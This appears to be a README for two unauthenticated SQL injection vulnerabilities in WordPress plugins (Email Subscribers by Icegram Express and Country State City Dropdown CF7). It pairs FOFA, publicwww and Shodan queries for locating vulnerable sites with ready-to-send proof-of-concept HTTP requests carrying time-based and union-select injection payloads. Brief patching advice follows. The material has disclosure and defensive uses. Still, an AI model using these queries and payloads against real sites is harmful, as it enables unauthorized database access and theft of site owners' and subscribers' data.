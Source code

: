 ### Description CVE-2024-2876
The Email Subscribers by Icegram Express – Email Marketing, Newsletters, Automation for WordPress & WooCommerce plugin for WordPress is vulnerable to SQL Injection 
via the 'run' function of the 'IG_ES_Subscribers_Query' class in all versions up to, and including, 5.7.14 due to insufficient escaping on the user supplied parameter and lack of sufficient 
preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

### Description CVE-2024-3495
The Country State City Dropdown CF7 plugin for WordPress is vulnerable to SQL Injection via the ‘cnt’ and 'sid' parameters in versions up to, and including, 2.7.2 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query. This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

### Query CVE-2024-2876
- FOFA : body="/wp-content/plugins/email-subscribers/"
- publicwww : "/wp-content/plugins/email-subscribers/"
### Query CVE-2024-3495
- FOFA : body="/wp-content/plugins/country-state-city-auto-dropdown" && header="HTTP/1.1 200 OK"
- Publicwww : "/wp-content/plugins/country-state-city-auto-dropdown"
- shodan : "http.title:admin-ajax.php"

### Proof of concept CVE-2024-2876
```bash
@timeout: 20s (using burpsuite)
POST /wp-admin/admin-post.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

page=es_subscribers&is_ajax=1&action=_sent&advanced_filter[conditions][0][0][field]=status=99924)))union(select(sleep(4)))--+&advanced_filter[conditions][0][0][operator]==&advanced_filter[conditions][0][0][value]=1111
```
### Proof of concept CVE 2024-CVE-2024-3495
```bash
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded

action=tc_csca_get_cities&nonce_ajax={{nonce}}&sid=1+or+0+union+select+concat(0x64617461626173653a,(select%20md5({{num}})),0x7c76657273696f6e3a,(select%20md5({{num}})),0x7c757365723a,user()),2,3--+-
```

### How to fix ? for [CVE-2024-2876]
- Since all versions up to 5.7.14 were detected with the CVE, it’s recommended for users to upgrade the Email Subscribers by Icegram Express plug-in to version 5.7.15 (or the most recent release 5.7.19).
- Patchstack users have the option to enable automatic updates specifically for vulnerable plugins.
- Implement a WAF/WAAP solution as an additional layer of protection. The advantage of such solutions is that even if the vulnerability is new and unknown (0-day), it may still prevent attacks by detecting exploitation patterns and techniques.

### Bounty Info [CVE-2024-2876]
https://www.wordfence.com/blog/2024/04/1250-bounty-awarded-for-unauthenticated-sql-injection-vulnerability-patched-in-email-subscribers-by-icegram-express-wordpress-plugin/
